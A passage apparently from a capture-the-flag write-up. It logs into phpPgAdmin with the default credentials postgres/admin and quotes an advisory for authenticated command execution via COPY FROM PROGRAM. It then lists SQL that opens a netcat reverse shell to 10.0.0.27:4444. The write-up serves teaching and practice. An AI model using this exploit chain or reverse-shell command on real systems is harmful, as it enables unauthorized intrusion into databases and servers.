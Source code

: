 We now have a login form. I tried logging in with the credentials we found on the FTP server but it didn't work. I searched for [**phpPgAdmin default login**][3] and found that the default username is **`postgres`** and the password is what the creator of the server entered. Turns out the password was **`admin`**. 

![image](https://user-images.githubusercontent.com/76552238/177598239-42a92199-abaa-44de-b869-cf16f2729d41.png)

![image](https://user-images.githubusercontent.com/76552238/177598281-5000b35c-0ca3-4a44-a158-a8d7d97e83b4.png)

Now that we are logged in, let's find a way to exploit the service. I found an [exploit][4] that allows us to run arbitrary commands on the remote server using the PhpPgAdmin service.

    # Exploit Title: phpPgAdmin 7.13.0 - COPY FROM PROGRAM Command Execution (Authenticated)
    # Date: 29/03/2021
    # Exploit Author: Valerio Severini
    # Vendor Homepage: Software Link: https://github.com/phppgadmin/phppgadmin/releases/tag/REL_7-13-0
    # Version: 7.13.0 or lower
    # Tested on: Debian 10 and Ubuntu

    Description: phpPgAdmin through 7.13.0 allows remote authenticated users to execute arbitrary code. An attacker can create a table named cmd_exec with one column, add type=text and cmd_out, and try to execute the query via a SQL tab. It will fail because of restrictions on statements. However, the attacker can bypass this step by uploading a .txt file (containing a SQL statement such as "COPY cmd_exec FROM PROGRAM" followed by OS commands) in the Browse bar. This achieves remote command execution via a "SELECT * FROM cmd_exec" statement.

    Attack Vectors (PoC):
    1) you have to create a table manually and call it "cmd_exec" with 1 column
    2) add cmd_output and type = text
    3) try to execute the query via SQL tabs , but it should fail because of restriction of Statement.
    4) A malicious Attacker could bypass this step uploading a .txt file in "Browse" bar, with a SQL malicious query inside, for example: " COPY cmd_exec FROM PROGRAM 'id; cd /root; ls'; "
    5) The attacker could execute Remote command execution and obtain full access control executing in SQL query: " SELECT * FROM cmd_exec; "

Executing the following commands in the SQL tab will grant us access to the remote machine.

    DROP TABLE IF EXISTS cmd_exec;
    CREATE TABLE cmd_exec(cmd_output text);
    COPY cmd_exec FROM PROGRAM 'nc -e /bin/bash 10.0.0.27 4444';
    SELECT * FROM cmd_exec;


[1]: "https://linuxcommandlibrary.com/man/john"
[2]: "https://crackstation.net/"
[3]: "https://community.bitnami.com/t/default-username-for-postgresql/40330"
[4]: "https://packetstormsecurity.com/files/162051/phpPgAdmin-7.13.0-Command-Execution.html"
[5]: "https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS"
[6]: "https://en.wikipedia.org/wiki/Blowfish_(cipher)"
[7]: "https://en.wikipedia.org/wiki/Triple_DES"
[8]: "https://gchq.github.io/CyberChef/"